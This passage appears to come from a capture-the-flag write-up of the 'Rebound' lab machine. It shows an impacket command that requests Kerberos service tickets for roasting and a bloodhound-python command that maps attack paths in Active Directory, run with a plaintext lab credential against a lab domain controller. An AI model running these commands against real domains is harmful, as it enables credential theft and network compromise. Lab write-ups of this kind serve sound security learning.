 ````shell
impacket-GetUserSPNs -no-preauth "jjones" -usersfile usernames.txt -dc-host 10.10.11.231 rebound.htb/ -request
````

![](Pasted%20image%2020240425205433.png)

The outcome is the same.
## Domain Enumeration with BloodHound

Now that we finally have a valid pair of credentials, we can use an ingestor to collect data about the domain and examine potential attack paths in BloodHound.

`bloodhound-python` is my favourite, as it doesn't require obtaining a shell or dropping files to disk.

Back when I completed the box on an older version of Kali and with an older version of `bloodhound-python`, the command would run without issue when using the `-c All` option. I can still replicate that today from that same VM.

```shell
bloodhound-python --zip -c All -u ldap_monitor -p '1GR8t@$$4u' -dc dc01.rebound.htb -d rebound.htb -ns 10.10.11.231 --dns-timeout 30 --dns-tcp
```

![](Pasted%20image%2020240425211319.png)
